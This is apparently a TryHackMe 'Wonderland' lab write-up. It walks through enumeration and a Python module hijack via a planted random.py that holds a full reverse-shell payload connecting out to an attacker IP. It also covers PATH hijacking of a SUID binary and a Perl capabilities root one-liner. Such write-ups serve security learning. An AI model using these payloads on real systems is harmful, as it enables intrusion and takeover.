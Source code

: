 ```yaml
---
title: Wonderland
date: 2022-07-23 12:00:00 -0500
author: L15t3Nr
categories:
  - TryHackMe
  - WriteUp
tags:
  - TryHackMe
  - WriteUp
  - Wonderland
img_path: /assets/img/Wonderland/
permalink: /posts/Wonderland/
---
```


Wonderland can be found [here](https://tryhackme.com/room/wonderland)

![Wonderland](/assets/img/Wonderland/Wonderland.jpeg)

# Enumeration
## Nmap
The results of nmap
```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDe20sKMgKSMTnyRTmZhXPxn+xLggGUemXZLJDkaGAkZSMgwM3taNTc8OaEku7BvbOkqoIya4ZI8vLuNdMnESFfB22kMWfkoB0zKCSWzaiOjvdMBw559UkLCZ3bgwDY2RudNYq5YEwtqQMFgeRCC1/rO4h4Hl0YjLJufYOoIbK0EPaClcDPYjp+E1xpbn3kqKMhyWDvfZ2ltU1Et2MkhmtJ6TH2HA+eFdyMEQ5SqX6aASSXM7OoUHwJJmptyr2aNeUXiytv7uwWHkIqk3vVrZBXsyjW4ebxC3v0/Oqd73UWd5epuNbYbBNls06YZDVI8wyZ0eYGKwjtogg5+h82rnWN
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHH2gIouNdIhId0iND9UFQByJZcff2CXQ5Esgx1L96L50cYaArAW3A3YP3VDg4tePrpavcPJC2IDonroSEeGj6M=
|   256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAsWAdr9g04J7Q8aeiWYg03WjPqGVS6aNf/LF+/hMyKh
80/tcp open  http    syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Manual Inspection 
The home page contains only an image

![Home](/assets/img/Wonderland/Home.png)

## Fuzzing for Directories
Using Wfuzz, I enumerate directories
```
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/raft-large-directories.txt --follow --hc 404 http://10.10.241.146/FUZZ/
```

One of the first results comes back as the '/r/' directory.

![r](/assets/img/Wonderland/r.png)

I had a feeling this was going to spell out the word 'rabbit', so I checked. 

![rabbitPage](/assets/img/Wonderland/rabbitPage.png)

There is a page here and checking the source reveals something interesting. 

There are credentials hidden in the page source. 

![sourceCredentials](/assets/img/Wonderland/sourceCredentials.png)

# Lateral Movement
### Alice

The credentials i found grant SSH access as the user 'alice'.

![SSHAlice](/assets/img/Wonderland/SSHAlice.png)

Digging into the users permissions reveals the ability to execute a python script as the user 'rabbit'

`sudo -l`
![sudo-l](/assets/img/Wonderland/sudo-l.png)


### Rabbit
The python script uses the 'random' module and this can exploited by abusing the way python looks up library modules. The first location python checks is the current directory. The random module is located at `/usr/lib/python3.6/random.py`. By placing a malicious file name 'random.py' in the current directory, python will find and use my module before it reaches the `	/usr/lib/python3.6/random.py` location. 

The payload I will use: 
```
import socket,os,pty  
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  
s.connect(("10.2.7.45",4242))  
os.dup2(s.fileno(),0)  
os.dup2(s.fileno(),1)  
os.dup2(s.fileno(),2)  
pty.spawn("/bin/sh")
```

and this will be stored in a file called 'random.py' in the directory containing the 'walrus_and_the_carpenter.py' script. 

Setting up a netcat listener on 4242 and then executing the script as the user rabbit will provide a reverse shell as the next user. 

`sudo -u rabbit python3.6 ~/walrus_and_the_carpenter.py`

![randomPY](/assets/img/Wonderland/randomPY.png)

![rabbitShell](/assets/img/Wonderland/rabbitShell.png)

### Hatter

The rabbit user contains a binary called 'teaParty' and their is a SUID set on the binary.

![SUID](/assets/img/Wonderland/SUID2.png)

I downloaded a strings static binary onto the target and inspected the strings in the binary.

![teaParty](/assets/img/Wonderland/teaParty.png)

This revealed that the binary uses the 'date' command without an absolute path. This way I can hijack the command with my own by added a malicious 'date' binary to the tmp directory and including the tmp directory in the path. 

![stringsResults](/assets/img/Wonderland/stringsResults.png)

the malicious date binary will contain a reverse shell payload and then be made executable

![newDate](/assets/img/Wonderland/newDate.png)

The tmp directory is also added to the path

![PATH](/assets/img/Wonderland/PATH.png)

A netcat listener is started on port 2345 and then the binary is executed for a reverse shell as the user Hatter

![TeaPartyExec](/assets/img/Wonderland/TeaPartyExec.png)

![HatterShell](/assets/img/Wonderland/HatterShell.png)

# Privilege Escalation
### Root
User hatter contains a password file in the home directory that I will use to login via SSH

![HatterPassword](/assets/img/Wonderland/HatterPassword.png)

![HatterSSH](/assets/img/Wonderland/HatterSSH.png)

I ran through the [Privilege Escalation Checklist](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md) and found that the hatter user has capabilities set on Perl. 

![GetCap](/assets/img/Wonderland/GetCap.png)

There is a privilege escalation path found on [GTFO bins](https://gtfobins.github.io/gtfobins/perl/)

The payload: 
```
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

![root](/assets/img/Wonderland/rootWonderland.png)
